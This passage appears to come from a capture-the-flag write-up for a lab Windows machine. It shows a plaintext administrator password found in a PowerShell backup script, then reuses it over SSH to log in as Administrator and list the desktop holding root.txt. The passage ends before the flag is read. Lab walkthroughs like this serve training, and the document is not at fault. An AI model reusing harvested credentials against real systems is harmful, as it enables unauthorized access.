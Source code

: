 It appears the file `BackUpScript.ps1` contains a potential administrator's password:

```powershell
# admin password
$password="Cr4ckMeIfYouC4n!"
...
```

Attempt to use this password to access the machine as the domain administrator via SSH. Read the system flag.

```bash
$ ssh Administrator@10.129.1.151
Administrator@10.129.1.151's password:
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

administrator@REEL C:\Users\Administrator>dir Desktop
 Volume in drive C has no label.
 Volume Serial Number is CC8A-33E1

 Directory of C:\Users\Administrator\Desktop

21/01/2018  14:56    <DIR>          .
21/01/2018  14:56    <DIR>          ..
02/11/2017  21:47    <DIR>          Backup Scripts
28/10/2017  11:56                32 root.txt
               1 File(s)             32 bytes
               3 Dir(s)  15,742,193,664 bytes free
```
